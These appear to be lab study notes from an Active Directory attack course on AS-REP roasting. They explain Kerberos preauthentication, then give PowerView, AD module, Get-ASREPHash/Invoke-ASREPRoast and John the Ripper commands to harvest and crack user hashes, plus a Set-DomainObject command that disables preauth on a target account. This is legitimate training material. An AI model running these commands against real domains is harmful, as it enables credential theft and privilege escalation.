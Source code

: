 # Asreproasting
So, the scenario is if we compromise student 1 then identify student1 has local admin rights on another machine we escalate privilege and move to that machine and dump hashes and comrpomise another account which is local admin on another machine then we move to that machine from initial machine and dump hash and again comromise new user and find he/she is local admin on another machine where Domain Admin has session so we move to that machine and dump DA creds but imagine after compromising a user we do not find that he/she has local admin rights on any machine or it can be that from initial machine student1 may not have local admin rights on any other machine or it can be that we donot find other paths where compromised user has session in such case try kerberoasting and if it does not work try asreproasting attack.

## ASREProasting working
If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline. It means during the first step of kerberose where a valid user asks for TGT with authentication server he/she needs to send an encrypted timestamp along with the request. The timestamp is encrypted with the user's password and If the DC can decrypt that timestamp using its own record of the user’s password hash, it will send back an Authentication Server Response (AS-REP) message that contains a Ticket Granting Ticket (TGT). However, if preauthentication is disabled, an attacker could request authentication data for any user and the DC would return an AS-REP message. Since part of that message is encrypted using the user’s password, the attacker can then attempt to brute-force the user’s password offline. We should use asreproasting if we have generic all or generic write permission over a user.

# Enumerating accounts with Kerberos Preauthdisabled 

- Using PowerView
```
Get-DomainUser -PreauthNotRequired -Verbose
```
- Using ActiveDirectorymodule:
```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
- ASreproast
```
Get-ASREPHash -UserName VPN1user -Verbose
```
- To enumerate all users with Kerberos preauthdisabled and request a hash
```
Invoke-ASREPRoast -Verbose
```
- We can use John The Ripper to brute-force the hashes offline
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```

## We can also Force disable Kerberos Preauth:

- Let's enumerate the permissions for RDPUserson ACLs using PowerView
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```
- We found we have generic write or generic all permission that means we can disable pre auth on a user's account and asreproast
```
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
```
